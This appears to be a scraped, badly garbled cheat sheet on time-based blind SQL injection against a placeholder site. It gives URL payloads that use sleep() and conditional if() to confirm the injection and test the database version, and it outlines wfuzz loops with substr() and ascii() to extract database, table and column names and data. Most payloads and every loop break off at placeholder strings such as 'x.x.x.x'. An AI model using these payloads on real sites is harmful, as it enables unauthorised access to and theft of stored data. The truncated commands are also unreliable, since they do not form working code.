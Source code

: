 # **Time based SQLi**

### Confirm time-based blind SQL injection using sleep() function  

[http://meh.com/index.php?id=1'](http://meh.com/index.php?id=1%27)

### and sleep(x.x.x.x  
  
Determine database version with time-based blind SQL injection using sleep(), like"", and conditional if, assuming the back-end database is running version 5  

[http://meh.com/index.php?id=1'](http://meh.com/index.php?id=1%27)

### and if((select version()) like "5%", sleep(x.x.x.x  
  
Determine database name with time-based blind SQL injection by observing http response time with substr(), ascii(), and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine table name with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine column name with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Extract column content with time-based blind SQL injection by observing http response time with substr(), ascii(), if, and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1

x.x.x.x